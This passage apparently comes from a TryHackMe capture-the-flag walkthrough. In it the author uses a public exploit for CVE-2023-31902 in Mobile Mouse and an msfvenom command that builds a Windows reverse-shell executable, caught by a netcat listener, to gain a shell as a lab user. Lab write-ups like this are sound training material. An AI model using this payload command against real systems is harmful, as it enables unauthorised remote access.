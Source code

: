...But I decide to dig deeper with this uncommon information on Google and try to find any interesting information. After a few, I stumble onto a [GitHub repo showing an exploit](https://github.com/blue0x1/mobilemouse-exploit?tab=readme-ov-file) for this vulnerability (**CVE-2023-31902**), how lucky!

There are two versions, one that uses **SMB** and the other **HTTP**. As the *engagement specifications* specify, we will use the **SMB version**.

So we craft the reverse shell using **msfvenom** :

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LOCAL LPORT=4444 -f exe -o shell.exe
```

We launch the exploit, wait with an netcat listening on the right port and...

![netcat1](/assets/img/tryhackme/walkthrough/mousetrap/4.png)

We obtain a reverse shell with the **purpletom** user and we can find the first flag in the user folder.
